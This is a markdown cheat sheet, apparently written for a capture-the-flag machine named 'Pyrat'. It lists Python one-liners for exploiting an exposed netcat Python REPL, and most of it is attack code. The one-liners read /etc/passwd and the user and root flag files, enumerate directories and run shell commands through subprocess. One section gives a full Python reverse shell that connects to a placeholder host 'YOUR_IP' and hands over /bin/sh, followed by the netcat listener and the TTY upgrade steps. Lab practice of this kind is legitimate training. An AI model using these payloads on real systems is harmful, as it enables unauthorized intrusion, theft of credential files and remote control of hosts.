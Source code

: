
### 🐍 Python One-Liners for Navigation in Netcat

#### 📂 List directories

```python
import os; print(os.listdir("/"))
```

List contents of `/home`:

```python
import os; print(os.listdir("/home"))
```

#### 📖 Read a file

```python
print(open("/etc/passwd").read())
```

Or:

```python
print(open("/home/pyrat/user.txt").read())
```

#### 📌 Get current working directory

```python
import os; print(os.getcwd())
```

#### 🔁 Change directory

```python
import os; os.chdir("/home/pyrat"); print(os.listdir())
```

#### 👤 Get username

```python
import os; print(os.getlogin())
```

#### 🆔 Get UID/GID

```python
import os; print(os.getuid(), os.getgid())
```

---

### 🔑 Quick Workflow in Pyrat

From your nc Python REPL:

1. See where you are:

   ```python
   import os; print(os.getcwd())
   ```
2. Check `/home`:

   ```python
   import os; print(os.listdir("/home"))
   ```
3. Read the user flag:

   ```python
   print(open("/home/pyrat/user.txt").read())
   ```
4. Look into `/root` for the root flag:

   ```python
   print(open("/root/root.txt").read())
   ```
## ADVANCED.
## 🐍 Python One-Liners for Netcat REPL
### 📂 **Directory Navigation**

```python
import os; print(os.getcwd())                       # current working dir
import os; print(os.listdir("/"))                   # list root dir
import os; print(os.listdir("/home"))               # list /home
import os; os.chdir("/home/pyrat"); print(os.getcwd())  # change dir
```

---

### 📖 **File Reading**

```python
print(open("/etc/passwd").read())                   # read entire file
print(open("/home/pyrat/user.txt").read())          # read user flag
print(open("/root/root.txt").read())                # read root flag
print(open("/etc/hosts").read())                    # read hosts file
```

*Read file line by line*:

```python
[print(line.strip()) for line in open("/etc/passwd")]
```

---

### 👤 **User / System Info**

```python
import os; print(os.getlogin())                     # current user
import os; print(os.getuid(), os.getgid())          # uid/gid
import platform; print(platform.uname())            # system info
```

---

### 🔍 **Search / Enumeration**

```python
import os; [print(f) for f in os.listdir("/var/www")]   # list web dir
import os; [print(f) for f in os.listdir("/tmp")]       # list tmp dir
```

*Recursive walk*:

```python
import os; [print(os.path.join(dp, f)) for dp, dn, fn in os.walk("/home") for f in fn]
```

---

### ⚡ **File Writing / Uploads**

```python
open("/tmp/test.txt","w").write("Hello from Python!")  # write file
```

---

### 🔄 **Execute Commands (if allowed)**

If `subprocess` works:

```python
import subprocess; print(subprocess.getoutput("id"))
import subprocess; print(subprocess.getoutput("ls -la /home"))
```

---

### 📡 **Reverse Shell (if outbound works)**

```python
import socket,subprocess,os; s=socket.socket(); s.connect(("YOUR_IP",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])
```

*(then listen on your machine with `nc -lvnp 1234`)*

---

## 🚀 Quick Attack Flow

1. See where you are:

   ```python
   import os; print(os.getcwd())
   ```
2. Check `/home`:

   ```python
   import os; print(os.listdir("/home"))
   ```
3. Read flags:

   ```python
   print(open("/home/pyrat/user.txt").read())
   print(open("/root/root.txt").read())
   ```
4. If blocked → enumerate recursively:

   ```python
   import os; [print(p) for p in os.listdir("/")]
   ```


   🛠️ Post-Reverse Shell Upgrade (Optional)\
Once you catch the shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```
